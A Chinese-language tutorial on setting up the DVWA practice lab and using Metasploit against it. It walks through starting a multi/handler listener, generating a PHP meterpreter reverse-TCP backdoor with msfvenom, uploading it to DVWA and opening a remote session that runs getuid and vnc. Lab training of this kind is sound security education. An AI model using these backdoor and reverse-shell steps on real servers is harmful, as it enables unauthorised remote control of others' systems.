






# 一、 环境准备

### 1 DVWA靶场

   DVWA下载：https://codeload.github.com/ethicalhack3r/DVWA/zip/master

注意：配置DVWA环境 准备PHP7.0以上，和 Nginx环境 
1 配置数据库密码  配置 config/config.inc.php.dist 文件（注意后门的 .dist要通过重命名删掉）
2 使用浏览器访问 http://XxIP/setup.php
3 红字问题解决
4 缺少key  直接替换下面2句  或者 访问https://www.google.com/recaptcha/admin/create
$_DVWA[ 'recaptcha_public_key' ] = '6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb';
$_DVWA[ 'recaptcha_private_key' ] = '6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K';
5 allow_url_include: Disabled  提示没开启
找到php目录里的php.ini allow_url_include  将后面参数OFF 改成On 修改完成重启Nginx生效

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# 二、Metasploit配置监控及攻击载荷

### 1 配置监控-使用handler模块

###    use exploit/multi/handler

###   2 配置攻击载荷设置payload

###    第一步设置payload

###      set payload php/meterpreter/reverse_tcp

	

###    第二步设置 lhost 和 lport  

设置监听端口和自己的ip.

	 

开始监听4444端口。

	

### 3 生成php后门执行攻击获得meterpreter

新建一个终端在终端内输入

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 R>shell.php

将shell.php上传到dvwa靶场。

	

于是通过网页上游览该文件，触发php代码执行。

	

3.3 执行攻击获得meterpreter

run 或者exploit

获取到meterpreter 我们就可以做渗透操作了

查看操作系统信息。

	

比如 观看检测对方的屏幕 可以在meterpreter里输入 ，但是这里没有复现成功。

run vnc

查看当前账号可以在meterpreter里输入

getuid